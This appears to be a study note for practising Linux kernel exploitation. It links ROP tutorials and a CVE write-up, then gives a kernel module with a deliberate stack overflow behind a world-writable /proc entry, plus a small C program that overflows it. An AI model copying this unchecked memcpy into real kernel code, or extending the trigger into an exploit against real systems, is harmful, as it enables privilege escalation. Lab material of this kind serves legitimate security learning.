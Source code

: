 https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/linux-kernel-rop-ropping-your-way-to-part-1/

https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/linux-kernel-rop-ropping-your-way-to-part-2/

https://thinkycx.me/2018-08-09-CVE-2017-8890-root-ubuntu-16.04-kernel-4.10.html

buf_overflow.c内容

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int buf_overflow_write(struct file *file, const char *buf, unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf, buf, len);
    return len;
}

static int __init buf_overflow_init(void)
{
    printk(KERN_ALERT "buf_overflow driver init!\n");
    create_proc_entry("overflow", 0666, 0)->write_proc = buf_overflow_write;
    return 0;
}

static void __exit buf_overflow_exit(void)
{
    printk(KERN_ALERT "buf_overflow driver exit!\n");
}

module_init(buf_overflow_init);
module_exit(buf_overflow_exit);
```

pwn.c内容

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB";
    int fd = open("/proc/overflow", O_WRONLY);
    write(fd, buf, sizeof(buf));
    return 0;
}
```
